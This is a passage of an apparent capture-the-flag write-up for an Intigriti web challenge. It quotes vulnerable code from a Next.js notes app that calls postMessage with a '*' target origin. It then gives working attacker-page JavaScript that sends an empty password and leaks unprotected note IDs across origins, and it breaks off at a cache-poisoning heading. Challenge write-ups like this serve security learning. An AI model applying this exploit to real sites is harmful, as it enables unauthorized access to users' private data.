 The message event listener on this page accepts messages from any origin due to the wildcard `"*"` being used in `postMessage()`.

#### Second Issue: Lack of Note ID Validation

```js
// /nextjs-app/app/protected-note/page.jsx
const validatePassword = (submittedPassword) => {
    const notes = JSON.parse(localStorage.getItem("notes") || "[]");
    const foundNote = notes.find(note => note.password === submittedPassword);

    if (foundNote) {
        window.opener.postMessage({ type: "success", noteId: foundNote.id }, "*");
        setIsSuccess(true);
    } else {
        window.opener.postMessage({ type: "error" }, "*");
        setIsSuccess(false);
    }
};
```

Here, there is no validation of the note ID, and if a note does not have a password set, the password is treated as an empty string.
This allows us to send a postMessage with an empty password, causing the system to return the note ID of an unprotected note back to window.opener.

As a result, the following code leaks the note ID via cross-origin communication:
```js
window.addEventListener("message", (e) => {
  if (e.data.type === "success") {
    const noteId = e.data.noteId; // yes, we succeeded in leaking note id.
    if (win && !win.closed) { 
      win.location.href = `https://challenge-0325.intigriti.io/note/${noteId}`;
    }
  }
});

document.addEventListener("DOMContentLoaded", () => {
  win = window.open(`https://challenge-0325.intigriti.io/protected-note`);
  if (!win) {
    console.error("Failed to open window. It may have been blocked by the browser.");
    return;
  }
  setTimeout(() => {
      win.postMessage({ type: "submitPassword", password: "" }, "*"); // Send blank string in password field to leak non-protected note id
  }, 1000);
});
```

---

## Browser Cache Poisoning
